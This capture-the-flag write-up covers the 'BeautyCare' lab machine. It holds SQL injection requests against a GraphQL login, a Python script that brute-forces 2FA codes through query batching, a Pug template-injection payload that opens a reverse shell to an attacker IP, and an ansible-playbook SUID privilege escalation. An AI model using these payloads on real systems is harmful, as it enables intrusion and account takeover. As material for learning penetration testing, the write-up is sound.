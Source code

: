 # BeautyCare

## Initial Foothold

Doing an `nmap` scan showed an Nginx server at port 80.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: El BeautyCare
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running a GoBuster scan on the webserver revealed the `/admin` and `/graphql` endpoints.

When visiting the `/admin` endpoint, we see a login panel. The credentials are sent as a POST request to the `/graphql` endpoint.

{% code overflow="wrap" %}
```http
POST /graphql HTTP/1.1
Host: 10.129.255.102
Content-Length: 118
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.129.255.102
Referer: http://10.129.255.102/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"query":"mutation {\n    LoginUser(username: \"test\", password: \"test\"){\n        message,\n        token    \n}\n}"}
```
{% endcode %}

By fuzzing both the `username` and `password` fields, we quickly find that there is an SQL injection through the `username` field.

{% code overflow="wrap" %}
```
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```
{% endcode %}

To quickly exploit this, I used SQLmap and specified a custom injection point:

{% code overflow="wrap" %}
```http
POST /graphql HTTP/1.1
Host: 10.129.255.102
Content-Length: 118
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.129.255.102
Referer: http://10.129.255.102/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"query":"mutation {\n    LoginUser(username: \"*\", password: \"test\"){\n        message,\n        token    \n}\n}"}
```
{% endcode %}

These gave the credentials `john:iamcool`. Upon logging in, though, we are prompted for our 2FA OTP. Since it was a 4-digit number, there were 10,000 possible OTP codes.

In GraphQL, a mechanism known as [batching](https://www.apollographql.com/blog/apollo-client/performance/batching-client-graphql-queries/) allows us to send multiple GraphQL queries in a single HTTP request. So instead of sending a single `verify2FA` mutation like so:

{% code overflow="wrap" %}
```json
{"query":"mutation {verify2FA(otp: \"0000\"){ message, token }"}
```
{% endcode %}

We could send multiple mutations like so:

{% code overflow="wrap" %}
```json
{"query":"mutation {verify0: verify2FA(otp: \"0000\"){ message, token } verify1: verify2FA(otp: \"0001\"){ message, token }"}
```
{% endcode %}

This allows us to bruteforce a significant number of OTP codes in a single request, reducing the total number of HTTP requests needed. However, due to limitations on the total length of a single request body, we still need to split the search space into multiple requests.

In the following script, we split the search space into 10 HTTP requests, each testing 1,000 OTP codes.

```python
import requests
import time

for i in range(10):
    res = ""
    for i in range(i * 1000, (i + 1) * 1000):
        res += f"verify{i}: verify2FA(otp: \"{str(i).zfill(4)}\"){{ message, token }}"

    qry = "mutation {" + res + "}"

    r = requests.post("http://10.129.255.102/graphql",
        json={"query": qry},
        headers={"Content-Type": "application/json"},
        cookies={
            "session": "<SESSION-COOKIE>"
        }, 
        proxies={'http': 'http://localhost:8080'}
    )

    data = r.json()['data']
    for key, value in data.items():
        if value != None:
            print(key, value)

    time.sleep(2)
```

This allows us to find the correct code in a couple of seconds.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Now, we can head over to the admin dashboard at `/admin/dashboard`. We are presented with a UI for saving and previewing email templates, which leads us to believe that there might be an [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) vulnerability.

From the HTTP response headers, we could also gather that the server was running an Express.js application, allowing us to narrow down the templating engine as [Pug](https://pugjs.org/).

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Using the following payload, we can spawn a reverse shell when previewing the template, allowing us to get a shell as `john`.

{% code overflow="wrap" %}
```java
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -i >& /dev/tcp/10.10.14.33/1337 0>&1')}()}
```
{% endcode %}

## Privilege Escalation

Running LinPEAS on the target server revealed that `john` can run `ansible-playbook` with sudo privileges.

```
User john may run the following commands on beautycare:
    (root) NOPASSWD: /usr/bin/ansible-playbook
```

To exploit this, we create a playbook that assigns SUID permissions to `/bin/bash`.

```yaml
---                                                                                                               
- name: shell                                                                                                  
  hosts: localhost
  become: yes

  tasks:
  - name: hack
    shell: "cp /bin/bash . && chmod +sx bash"
```

Then we can just run `sudo ansible-playbook pwn.yml` to run the playbook's command as `root`, and then `bash -p` to gain a bash shell with root privileges through the SUID permission.
